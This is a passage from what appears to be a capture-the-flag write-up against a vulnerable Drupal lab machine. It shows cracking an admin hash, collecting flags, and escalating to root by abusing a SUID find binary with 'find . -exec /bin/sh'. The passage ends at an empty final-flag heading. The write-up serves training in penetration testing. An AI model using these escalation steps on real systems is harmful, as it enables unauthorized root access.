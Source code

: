 Using online hash cracking service (hashes.com):

<img width="968" height="464" alt="image" src="https://github.com/user-attachments/assets/b9b3976e-6aac-43e3-9a6b-a8f1b72b5847" />


**Cracked Password:** `53cr3t`
<img width="1195" height="509" alt="image" src="https://github.com/user-attachments/assets/9eac92d4-26a7-413b-a7d2-ba634215258b" />

### Flag 3 Access

Logging into Drupal admin panel with cracked credentials reveals **Flag 3**:





**Flag 3 Content:** *"Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow."*

### Flag 4 Discovery

```shellscript
find / -iname flag* 2> /dev/null
cat /home/flag4/flag4.txt
```

**Flag 4:** *"Can you use this same method to find or access the flag in root? Probably. But perhaps it's not that easy. Or maybe it is?"*

## Privilege Escalation

### SUID Binary Analysis

Searching for SUID binaries:

```shellscript
find / -perm -4000 2> /dev/null
```

**Key Finding:** `/usr/bin/find` has SUID bit set

### Root Access via SUID Find

Exploiting the SUID find binary:

```shellscript
find . -exec /bin/sh \;
```

**Privilege Check:**

```shellscript
id
# uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

### Final Flag
